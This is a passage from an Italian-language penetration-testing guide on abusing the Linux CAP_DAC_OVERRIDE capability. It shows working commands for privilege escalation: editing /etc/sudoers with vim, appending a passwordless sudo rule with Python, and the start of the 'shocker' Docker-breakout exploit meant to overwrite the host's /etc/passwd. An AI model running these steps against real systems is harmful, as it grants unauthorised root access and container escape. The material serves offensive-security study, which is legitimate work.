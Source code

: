 {% embed url="https://www.rootedcon.com/" %}

## CAP\_DAC\_OVERRIDE

**Questo significa che puoi aggirare i controlli di autorizzazione in scrittura su qualsiasi file, quindi puoi scrivere qualsiasi file.**

Ci sono molti file che puoi **sovrascrivere per ottenere privilegi elevati,** [**puoi trovare idee qui**](payloads-to-execute.md#sovrascrivere-un-file-per-ottenere-privilegi-elevati).

**Esempio con un binario**

In questo esempio, vim ha questa capacità, quindi puoi modificare qualsiasi file come _passwd_, _sudoers_ o _shadow_:
```bash
getcap -r / 2>/dev/null
/usr/bin/vim = cap_dac_override+ep

vim /etc/sudoers #To overwrite it
```
**Esempio con il binario 2**

In questo esempio il binario **`python`** avrà questa capacità. Potresti utilizzare python per sovrascrivere qualsiasi file:
```python
file=open("/etc/sudoers","a")
file.write("yourusername ALL=(ALL) NOPASSWD:ALL")
file.close()
```
**Esempio con ambiente + CAP_DAC_READ_SEARCH (Docker breakout)**

Puoi verificare le capacità abilitate all'interno del container Docker utilizzando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
Prima di tutto, leggi la sezione precedente che [**sfrutta la capacità DAC\_READ\_SEARCH per leggere file arbitrari**](linux-capabilities.md#cap\_dac\_read\_search) dell'host e **compila** l'exploit.\
Successivamente, **compila la seguente versione dell'exploit shocker** che ti permetterà di **scrivere file arbitrari** nel filesystem dell'host:
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd
```